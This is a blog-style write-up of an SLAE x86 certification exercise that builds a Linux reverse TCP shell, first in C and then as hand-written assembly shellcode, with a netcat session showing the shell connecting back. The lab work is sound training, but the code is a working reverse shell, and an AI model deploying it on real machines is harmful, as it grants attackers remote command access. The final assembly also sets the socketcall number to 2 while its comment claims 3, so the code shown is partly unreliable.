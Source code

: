 ```yaml
---
title:  "SLAE x86 Assignment 2: Reverse TCP Shell"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will write a reverse shell shellcode for assignment 2 of the Pentester Academy SLAE x86
certification. Let's begin with assignment 2!

## Understanding the objective ##
Again, let's start off by breaking down the code's major working parts. The shellcode must do the following:

- Creates and configures a socket
- Connects to a given address
- Duplicates standard file descriptors, so that the shell can interact with the socket
- Spawns a shell

We can now write some c code based on this outline. Of course as you can see, this is slightly less complex, compared to the bind shell done previously:

```c
// SLAE Assignment 2: Reverse TCP Shell (Linux/x86)
// Author: 4p0cryph0n
// Website: https://4p0cryph0n.github.io

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main()
{
    //Defining Address Structure
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4443); //Port no.
    addr.sin_addr.s_addr = inet_addr("127.0.0.1"); //Connect to loopback

    //Create and Configure Socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    //Connect
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    //Duplicate Standard File Descriptors
    for (int i = 0; i <= 2; i++)
    {
        dup2(sockfd, i);
    }

    //Execute Shell
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
In this code, we will only need the ```connect()``` function, instead of ```listen()```, ```bind()```, and ```accept()```. Keep in mind though, in order to duplicate the standard file descriptors, we will use our initial socket descriptor, different from what we did in the bind shell.

```c
#include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

Let's compile and run this:
```
Terminal 1:
$ gcc rev_shell.c -o rev_shell
rev_shell.c: In function ‘main’:
rev_shell.c:16:28: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
   16 |     addr.sin_addr.s_addr = inet_addr("127.0.0.1"); //Use any interface to listen
      |                            ^~~~~~~~~
$ ./rev_shell

Terminal 2:
$ nc -lvp 4443
listening on [any] 4443 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 59340
uname -a
Linux kali 5.4.0-kali3-686-pae #1 SMP Debian 5.4.13-1kali1 (2020-01-20) i686 GNU/Linux
```
Alright! let's start writing the assembly code for this.

## Assembly Time! ##
Okay so we first need the syscall number for ```connect()```. We can find this in ```/usr/include/linux/net.h```:
```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
So most of the code is going to be the same as the previously written bind shell, only with a few differences. The start will stay the same:
```nasm
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq               ;clears edx


; create socket s=socket(2,1,0)
mov al, 0x66
inc ebx           ;ebx=1
push edx          ;0
push ebx          ;1
push 0x2          ;2
mov ecx, esp      ;pointer to args
int 0x80          ;syscall
mov esi, eax      ;sockfd
```
The address structure will be slightly different, as we need to add ```127.0.0.1``` as the address to connect to. Now keep in mind that we will need to enter this in Little Endian, so what we need to pass is ```0100007f```. Also, in order to avoid the nulls, it is a good idea to ```xor``` encode it first, and decode it in the assembly code itself.

We will also push 8 bytes of NULL padding with this:
```nasm
mov eax, 0xabaaaad5   ;127.0.0.1 (xored with key 0xaaaaaaa)
mov ebx, 0xaaaaaaaa
xor eax, ebx
push edx              ;padding(NULLs)
push eax              ;127.0.0.1
push word 0x5b11      ;4443
push word 0x2         ;AF_INET
mov ecx, esp          ;pointer to args
```
Apart from this, the code remains the same as the bind shell:
```nasm
; SLAE Assignment 2: Reverse TCP Shell Shellcode (Linux/x86)
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start:

section .text
_start:

        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        cdq

        ; create socket s=socket(2,1,0)
        mov al, 0x66
        inc ebx               ;ebx=1
        push edx              ;0
        push ebx              ;1
        push 0x2              ;2
        mov ecx, esp          ;pointer to args
        int 0x80              ;syscall
        mov esi, eax          ;sockfd

        ; create addr struc and connect(s,2,port,addr,NULL,16)
        mov eax, 0xabaaaad5   ;127.0.0.1 (xored with key 0xaaaaaaa)
        mov ebx, 0xaaaaaaaa
        xor eax, ebx
        push edx              ;padding (NULL)
        push eax              ;127.0.0.1
        push word 0x5b11      ;4443
        push word 0x2         ;2 (AF_INET)
        mov ecx, esp          ;pointer to args

        xor eax, eax
        xor ebx, ebx
        mov al, 0x66
        inc ebx
        inc ebx               ;ebx=3 --> SYS_CONNECT
        push 0x10             ;16
        push ecx              ;addr struc
        push esi              ;sockfd
        int 0x80

        ;duplicating stdfds
        xor ecx, ecx          ;ecx=0
        mov cl, 0x3           ;counter for loop. Iterating for 3 stdfds
        dup2:
        xor eax, eax          ;eax=0
        mov al, 0x3f          ;syscall number for dup2
        mov ebx, esi          ;sockfd moved into ebx
        dec cl                ;ecx=2
        int 0x80              ;syscall
        jnz dup2              ;keep looping until the 0 flag is set

        ;execve
        xor ecx, ecx          ;ecx=0
        push ecx              ;pushing the null
        push byte 0x0b        ;print syscall
        pop eax               ;eax=11
        push 0x68732f2f       ;pushing /bin/sh in reverse order
        push 0x6e69622f
        mov ebx, esp          ;pointer to args
        int 0x80              ;syscall
```
